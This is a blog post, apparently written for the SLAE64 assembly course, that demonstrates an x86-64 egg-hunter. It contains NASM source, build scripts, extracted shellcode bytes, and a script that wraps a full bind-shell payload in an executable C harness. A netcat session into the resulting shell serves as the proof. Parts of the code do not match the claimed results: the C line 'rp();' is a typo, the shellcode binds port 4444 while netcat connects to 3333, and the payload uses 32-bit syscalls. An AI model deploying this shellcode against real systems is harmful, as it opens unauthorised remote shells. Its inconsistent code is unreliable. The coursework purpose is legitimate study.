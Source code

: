```yaml
---
layout: post
title:  "Slae64 Assignment #3"
date:   2018-05-25 00:10:45
categories: jekyll update
---
```


# SLAE Assignment #3

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://www.securitytube-training.com/online-­courses/x8664-assembly-and-shellcoding-on-linux/index.html

Student ID: SLAE64 - 1525

## Assignment

* Study about the Egg Hunter shellcode
* Create a working demo of the Egghunter
* Should be configurable for different payloads

## Resources

* http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf

## Egg Hunters theory

For this assignment it's required to study the egg hunting tecniques, and come up with a fully working implementation.

Usually when a BOF happens, there isn't a lot of space available for the payload, what happens in most of cases is that a small portion of shellcode is put on the stack and directly accessible and 
another part instead is put somewhere else, and have much more space available. The egg hunting tecnique consists in a two staged payload, the first, smaller, searches for a particular pattern in memory, with which the second larger part is identified and executed. As from the paper mentioned earlier the pattern is usually 4 bytes long, and repeated twice, so that the egg-hunter won't transfer execution to its own code.

## Implementation

The shellcode used is the one for shell bind, the only change is that it will be prefixed with a short premises of 8 bytes that will be the pattern searched by the egg hunter.
Here follows the egg-hunter code:

```
; Filename: EggHunter.nasm
; Author: SLAE64 - 1525
;
; Purpose: execute through egg-hunter routine the shellcode of ShellBindTcp
BITS 64

global _start			

section .text

EGG equ 'ABCD'

_start:
    ; load final address in rax
    lea rax, [rel address_space_end]

search:
    inc rax
    cmp dword [eax], EGG
    jne search
    cmp dword [eax + 0x4], EGG
    jne search
    add rax, 8
    jmp rax

address_space_end:
```

Compiling the assembler code to shellcode with the following script:

```
echo '[+] Assembling with Nasm ... ' # Nasm shell source: file.nasm
nasm -f elf64 -o $1.o $1.nasm
echo '[+] Done!'

echo '[+] Linking ...'
ld -z execstack -o $1 $1.o
echo '[+] Done!'

# Remove object file
rm -rf $1.o

echo '[+] Dumping Shellcode ...'
objdump -d ./$1|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\\x/g'|paste -d '' -s |sed 's/^/"/' | sed 's/$/"/g'
echo '[+] Done!'

# Remove executable
rm -rf $1
```

which generates the following output (shellcode asm):

```
$ ./compile-nasm.sh egg-hunter      
[+] Assembling with Nasm ... 
[+] Done!
[+] Linking ...
[+] Done!
[+] Dumping Shellcode ...
"\x48\x8d\x05\x18\x00\x00\x00\x48\xff\xc0\x67\x81\x38\x41\x42\x43\x44\x75\xf4\x67\x81\x78\x04\x41\x42\x43\x44\x75\xea\x48\x83\xc0\x08\xff\xe0"
[+] Done!
```

We are using the same shellcode of the previous assignment (shell bind). The following script allows easily customization of the egg payload and of the shellcode itself:

```
# Ex: ./compile.sh ABCD "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

# Ex: ./compile.sh ABCD "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

echo '######### NASM #########'
echo '[+] Customizing Tag: '$1 # $1 Tag like: ABCD
tag=`echo -n $1 | xxd -ps | sed 's/[[:xdigit:]]\{2\}/\\\x&/g'`
echo '[+] Done!'

echo '[+] Customizing Shellcode: '$2 # $2 Shellcode: \x00\x01..
shellcode=$2
echo '[+] Done!'

echo '[+] Assemble shellcode C ...'

echo "#include<stdio.h>" >shellcode.c
echo "#include<string.h>" >>shellcode.c
echo "#define EGG \"$tag\"" >>shellcode.c
echo "unsigned char egghunter[] = \"\x48\x8d\x05\x18\x00\x00\x00\x48\xff\xc0\x67\x81\x38\"" >>shellcode.c
echo "                            EGG" >>shellcode.c
echo "                            \"\x75\xf4\x67\x81\x78\x04\"" >>shellcode.c
echo "                            EGG" >>shellcode.c
echo "                            \"\x75\xea\x48\x83\xc0\x08\xff\xe0\";" >>shellcode.c
echo "unsigned char shellcode[] = EGG" >>shellcode.c
echo "                            EGG" >>shellcode.c
echo "                            \"$shellcode\";" >>shellcode.c
echo "int main (int argc, char** argv) {" >>shellcode.c
echo "    printf(\"Shellcode Length: %d\\n\", (int) strlen(shellcode));" >>shellcode.c
echo "    printf(\"Egghunter Length: %d\\n\", (int) strlen(egghunter));" >>shellcode.c
echo "    int (*p)() = (int(*)())egghunter;" >>shellcode.c
echo "    rp();" >>shellcode.c
echo "}" >>shellcode.c

echo '[+] Done!'

echo '[+] Assemble shellcode.c ...'
gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```

The script is executed as follows:

```
$ ./compile.sh ABCD "\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x6a\x06\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc7\x31\xc0\xb0\x66\x31\xdb\xb3\x02\x31\xc9\x51\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x04\x6a\x05\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x05\x31\xc9\x51\x51\x57\x89\xe1\xcd\x80\x89\xc6\x31\xc0\xb0\x02\xcd\x80\x09\xc0\x75\x49\x31\xc0\xb0\x06\x89\xfb\xcd\x80\x31\xc0\xb0\x3f\x89\xf3\x31\xc9\xb1\x01\xfe\xc9\xcd\x80\x31\xc0\xb0\x3f\x31\xc9\xb1\x01\xcd\x80\x31\xc0\xb0\x3f\x31\xc9\xb1\x02\xcd\x80\x31\xc0\xb0\x0b\x31\xdb\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xb1\x01\xfe\xc9\x31\xc9\x88\xca\xcd\x80\x31\xc0\xb0\x06\x89\xf3\xcd\x80\xeb\x90"
######### NASM #########
[+] Customizing Tag: ABCD
[+] Done!
[+] Customizing Shellcode: \x31\xc0\xb0\x66\x31\xdb\xb3\x01\x6a\x06\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc7\x31\xc0\xb0\x66\x31\xdb\xb3\x02\x31\xc9\x51\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x04\x6a\x05\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x05\x31\xc9\x51\x51\x57\x89\xe1\xcd\x80\x89\xc6\x31\xc0\xb0\x02\xcd\x80\x09\xc0\x75\x49\x31\xc0\xb0\x06\x89\xfb\xcd\x80\x31\xc0\xb0\x3f\x89\xf3\x31\xc9\xb1\x01\xfe\xc9\xcd\x80\x31\xc0\xb0\x3f\x31\xc9\xb1\x01\xcd\x80\x31\xc0\xb0\x3f\x31\xc9\xb1\x02\xcd\x80\x31\xc0\xb0\x0b\x31\xdb\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xb1\x01\xfe\xc9\x31\xc9\x88\xca\xcd\x80\x31\xc0\xb0\x06\x89\xf3\xcd\x80\xeb\x90
[+] Done!
[+] Assemble shellcode C ...
[+] Done!
[+] Assemble shellcode.c ...
```

## Proof of execution

The executed shellcode leads to the following output that confirms it's correctness:
```
$ ./shellcode
Shellcode length: 164
Egghunter length: 36

```

and successful connection with execution of a system command into the bind shell:

```
$ nc -vv localhost 3333
Connection to localhost 3333 port [tcp/*] succeeded!
abcd
id
uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant)
```